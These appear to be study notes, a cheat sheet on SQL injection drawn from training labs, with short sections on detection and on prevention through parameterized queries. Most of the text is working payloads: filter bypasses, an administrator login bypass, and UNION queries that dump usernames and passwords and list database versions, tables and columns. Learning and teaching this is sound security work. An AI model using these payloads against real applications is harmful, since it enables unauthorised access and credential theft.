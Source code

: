 # **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27--]

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` 
`' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 

`SELECT * FROM information_schema.tables` -- what DB table exist 
`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--`
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` 
`'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`